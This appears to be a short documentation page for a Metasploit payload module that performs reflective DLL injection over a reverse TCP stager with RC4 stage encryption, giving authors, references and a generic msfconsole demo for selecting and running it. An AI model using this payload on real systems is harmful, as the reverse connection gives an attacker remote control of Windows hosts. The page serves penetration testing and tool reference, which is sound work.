 ## Reflective DLL Injection, Reverse TCP Stager (RC4 Stage Encryption)

Inject a DLL via a reflective loader. Connect back to the 
attacker


## Module Name
payload/windows/dllinject/reverse_tcp_rc4

## Authors
* sf
* hdm
* skape
* mihi


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/dllinject/reverse_tcp_rc4
msf payload(reverse_tcp_rc4) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4) > set TARGET <target-id>
msf payload(reverse_tcp_rc4) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4) > run
```
    
    